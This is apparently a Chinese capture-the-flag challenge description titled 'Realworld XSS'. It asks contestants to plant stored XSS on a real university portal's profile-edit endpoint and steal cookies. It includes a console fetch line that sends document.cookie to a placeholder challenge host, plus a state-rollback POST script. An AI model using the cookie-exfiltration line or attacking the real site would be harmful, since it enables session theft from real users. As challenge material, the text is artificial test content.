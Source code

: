 ## Realworld XSS


目标：在 `https://i.hdu.edu.cn/mnews/_web/_ids/user/api/userInfo/edit0.rst?act=control&_p=YXM9MA__` 实现存储型XSS窃取Cookie，然后在`i.hdu.edu.cn`域下的 console 执行下面的指令唤醒机器人访问

```js
fetch('https://YOUR-CHALL-HOST/?cookie=' + document.cookie,{mode: 'no-cors'})
```

注意：请先访问https协议下的靶机接受SSL证书。

该附件允许你搭建在本地运行的环境，但其中的代码与挑战并没有太大关联。建议自己测试成功后再唤醒机器人。

任何问题可以找招新群`web-弟中之弟`询问

P.S. 镜像除环境变量外即为发布到dockerhub上的`jesselingard/realworld_xss`版本。题目不会窃取你的个人信息。

P.P.S. 可以帮助你回滚界面状态的脚本，在`i.hdu.edu.cn`域下控制台执行：

```js
fetch("https://i.hdu.edu.cn/mnews/_web/_ids/user/api/userInfo/136816.rst?_p=YXM9MSZwPTEmbT1OJg__", {
  "headers": {
    "content-type": "application/x-www-form-urlencoded",
  },
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "photoUrl=&photoPath=&_method=PUT&file=&loginName=0&name=1&gender=0&nickName=&birthDate=&polityFaceId=5&profession=&idCard=&password=&newPassword=&repassword=&passwordQuestion=&passwordAnwser=&phone=&contactTel=&QQ=&email=&MSN=&contactAddress=&signature=&selfIntro=&remark=",
  "method": "POST",
  "mode": "no-cors",
  "credentials": "include"
});
```




